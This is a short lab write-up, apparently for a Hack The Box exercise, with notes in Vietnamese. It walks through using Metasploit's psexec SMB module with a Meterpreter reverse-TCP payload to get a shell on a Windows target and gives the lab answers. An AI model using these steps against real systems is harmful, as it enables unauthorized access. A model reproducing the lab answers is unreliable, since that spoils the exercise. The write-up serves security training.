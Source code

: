 1. What command language interpreter is used to establish a system shell session with the target?
![alt text](image.png)
P/s : powershell
2. Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension
Mở metasploit bằng câu lệnhmsfconsolq -q
![alt text](image-1.png)

```bash
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SERVICE_DESCRIP                   no        Service description to
   TION                                        be used on target for p
                                               retty listing
   SERVICE_DISPLAY                   no        The service display nam
   _NAME                                       e
   SERVICE_NAME                      no        The service name
   SMBSHARE                          no        The share to connect to
                                               , can be an admin share
                                                (ADMIN$,C$,...) or a n
                                               ormal read/write folder
                                                share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module
                                       on


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https
                                         ://docs.metasploit.com/docs/u
                                         sing-metasploit/basics/using-
                                         metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for
                                          authentication
   SMBPass                     no        The password for the specifie
                                         d username
   SMBUser                     no        The username to authenticate
                                         as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '',
                                        seh, thread, process, none)
   LHOST     192.168.231.128  yes       The listen address (an interfa
                                        ce may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.
```
Thiết lập các thông số cho payload khai thác 
![alt text](image-2.png)
Bắt đầu khai thác 
![alt text](image-3.png)
Khởi tạo shell tương tác
![alt text](image-4.png)
Tìm file trong đường dẫn C:\Users\htb-student\Documents
![alt text](image-5.png)
P/s:staffsalaries.txt
